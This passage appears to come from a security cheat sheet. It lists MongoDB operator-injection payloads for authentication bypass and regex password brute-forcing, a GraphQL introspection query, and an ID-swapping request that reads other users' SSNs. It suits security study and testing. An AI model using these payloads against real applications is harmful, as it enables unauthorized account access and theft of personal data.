 ### NoSQL Injection

#### MongoDB Injection
```javascript
// Vulnerable query
db.users.find({username: req.body.username, password: req.body.password})

// Bypass authentication
// POST data: username[$ne]=admin&password[$ne]=admin
// Translates to: {username: {$ne: "admin"}, password: {$ne: "admin"}}

// Extract data
username[$regex]=^admin&password[$ne]=wrong

// Brute force password character by character
username=admin&password[$regex]=^a
username=admin&password[$regex]=^ad
username=admin&password[$regex]=^adm
```

### GraphQL Attacks

#### Introspection Query
```graphql
query IntrospectionQuery {
  __schema {
    queryType { name }
    mutationType { name }
    types {
      name
      fields {
        name
        type {
          name
          kind
        }
      }
    }
  }
}
```

#### Authorization Bypass
```graphql
# Vulnerable - no authorization check
query {
  user(id: "1") {
    name
    email
    ssn
  }
}

# Try accessing other users
query {
  user(id: "2") {
    name
    email
    ssn
  }
}
```
